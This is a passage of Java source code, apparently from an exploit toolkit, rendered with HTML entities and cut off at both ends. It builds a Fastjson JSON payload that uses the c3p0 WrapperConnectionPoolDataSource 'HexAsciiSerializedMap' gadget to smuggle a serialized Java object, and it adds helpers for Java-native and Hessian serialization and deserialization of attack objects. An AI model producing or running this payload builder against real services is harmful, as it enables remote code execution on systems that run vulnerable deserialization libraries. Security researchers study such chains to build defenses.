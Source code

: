 ```java
                    hessiandeser(base64Decode(hessian));
                break;
            case &#34;hex&#34; :
                byte[] bytes = serialize(obj);
                String hex = &#34;{\n&#34; &#43;
                        &#34;    \&#34;rand1\&#34;: {\n&#34; &#43;
                        &#34;        \&#34;@type\&#34;: \&#34;java.lang.Class\&#34;,\n&#34; &#43;
                        &#34;        \&#34;val\&#34;: \&#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\&#34;\n&#34; &#43;
                        &#34;    },\n&#34; &#43;
                        &#34;    \&#34;rand2\&#34;: {\n&#34; &#43;
                        &#34;        \&#34;@type\&#34;: \&#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\&#34;,\n&#34; &#43;
                        &#34;        \&#34;userOverridesAsString\&#34;: \&#34;HexAsciiSerializedMap:&#34; &#43; bytesToHexString(bytes, bytes.length) &#43; &#34;;\&#34;,\n&#34; &#43;
                        &#34;    }\n&#34; &#43;
                        &#34;}&#34;;
                System.out.println(hex);
                if (mode.equals(&#34;debug&#34;))
                    JSON.parseObject(hex);
                break;
        }
    }
    
    public static void deserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }
    public static void hessiandeser(byte[] bytes) throws Exception {
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
    public static byte[] hessianser(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        hessianOutput.getSerializerFactory().setAllowNonSerializable(true);
        hessianOutput.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }

    public static byte[] base64Decode(String string) {
        Base64.Decoder decoder = Base64.getDecoder();
        return decoder.decode(string);
    }
    public static String base64Encode(byte[] bytes) {
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString(bytes);
    }
    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);
        for(int i = 0; i &lt; length; &#43;&#43;i) {
            String sTemp = Integer.toHexString(255 &amp; bArray[i]);
            if (sTemp.length() &lt; 2) {
                sb.append(0);
            }
```